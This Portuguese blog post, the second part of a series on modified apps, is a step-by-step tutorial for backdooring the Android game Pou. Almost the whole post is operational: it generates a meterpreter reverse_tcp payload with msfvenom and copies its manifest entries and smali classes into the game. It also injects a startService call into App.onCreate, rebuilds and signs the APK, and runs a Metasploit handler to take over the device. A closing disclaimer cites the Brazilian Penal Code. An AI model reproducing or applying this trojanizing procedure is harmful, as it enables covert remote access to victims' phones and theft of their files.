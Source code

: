 ```yaml
---
title: Já usou algum aplicativo modificado? (parte 2)
excerpt: Segunda parte do artigo, como criar um aplicativo modificado para fins de estudo.
date: 2020-02-25 23:00:00
tags: 1,2,3
cover: https://cdn-images-1.medium.com/max/800/1*nQw9NwHbf-3lW2fB3Y5zyg.png
cover_creditos:
default_cover:
---
```


Hello friends.

Você pode esta sendo espionado 😂.

Nesta segunda parte irei colocar um backdoor no jogo que modificamos no último [post](https://medium.com/@andersongomes001/j%C3%A1-usou-algum-aplicativo-modificado-7771a390288a).

Primeiro vamos criar um payload para android com o “msfvenom”, vai abrindo aquela máquina virtual com kali que você não usa já faz um tempo.

O comando é o seguinte.

> msfvenom -p android/meterpreter/reverse\_tcp LHOST=192.168.1.6 LPORT=9090 R > payload.apk

Apenas troque o “192.168.1.6” pelo ip do seu servidor e “9090” pela porta que será aberta nele.

Depois de gerar o apk precisamos descompilar e pegar o que precisamos e colocar no jogo.

> _java -jar apktool\_2.4.1.jar d_ payload.apk

Depois de descompilar devemos ir no arquivo “AndroidManifest.xml” e copiar as permissões “uses-permission” e as características “uses-feature” para o “AndroidManifest.xml” do jogo lembrando de eliminar as linhas duplicadas.

No final vai ficar parecido com a imagem abaixo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*nQw9NwHbf-3lW2fB3Y5zyg.png" alt="">
      <figcaption></figcaption>
    </figure>

Precisamos copiar mais alguma coisas para o payload funcionar no jogo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*HgkUz3oSxlXitccyzsyxHQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Copie o “intent-filter” para a activity que tiver “android.intent.action.MAIN” com certeza ela sera a classe principal, e o “receiver” e “service” podem colocar logo abaixo dela.

Agora mude **“.MainBroadcastReceiver”** para **“com.metasploit.stage.MainBroadcastReceiver”** e **“.MainService”** para **“com.metasploit.stage.MainService”.**

No final de tudo isso o arquivo “AndroidManifest.xml” do jogo ficara parecido com este.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*LGKdV6wvrDLI1atuMZbYlw.png" alt="">
      <figcaption></figcaption>
    </figure>

Dentro do payload vamos até a classe “MainActivity.smali” e copie a seguinte linha.

> invoke-static {p0}, Lcom/metasploit/stage/MainService;->startService(Landroid/content/Context;)V

Lembra lá no primeiro post que precisávamos saber qual era a classe que iniciava o jogo? Ela vai servir agora.

Dentro da classe “App.smali” no jogo, procure pelo método “onCreate” e logo apos a chamada da superclasse devemos colar a linha copiada do payload, ficara parecida com a imagem abaixo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*3WImqjXD-0p0MALJK2qMUg.png" alt="">
      <figcaption></figcaption>
    </figure>

O próximo passo é copiar as classes necessitarias para o payload funcionar, vá ate a pasta “payload\\smali\\com” copie a pasta “metasploit” para “pou\\smali\\com” feito isso é só compilar e assinar o apk.

> java -jar apktool\_2.4.1.jar b pou -o pou\_mod.apk

> java -jar uber-apk-signer-1.1.0.jar -a pou\_mod.apk

Antes de instalar o apk vamos iniciar o handler no kali com o comando abaixo.

> _msfconsole  
> use exploit/multi/handler  
> set payload android/meterpreter/reverse\_tcp  
> set LHOST 192.168.1.6  
> set LPORT 9090  
> exploit_

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*fU48oND3KugaYtEC0a7beQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Agora é só instalar o app e quando for iniciado ganhamos acesso ao dispositivo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*fXM5lJhnRW8Qdvtlfqjbyw.png" alt="">
      <figcaption></figcaption>
    </figure>

Depois de ganhar o acesso você pode baixar imagens, arquivos, criar novos arquivos etc.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*F41qJWShqkIPZiV-nMXRWw.png" alt="">
      <figcaption></figcaption>
    </figure>

Digitando **help** o “meterpreter” mostra uma lista de comando possíveis para serem executados no android.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*AGxzXgR1M0WCpwtttdoEdQ.png" alt="">
      <figcaption></figcaption>
    </figure>

E ai ainda vai instalar algum aplicativo modificado que você encontrar na internet?

O conteúdo que disponibilizei foi para fins educativos, e saiba que invadir ou instalar programa para acessar remotamente um dispositivo, bem como clonar, para obter informações do outro, poderá incorrer no crime previsto no art. 154-A do Código Penal.
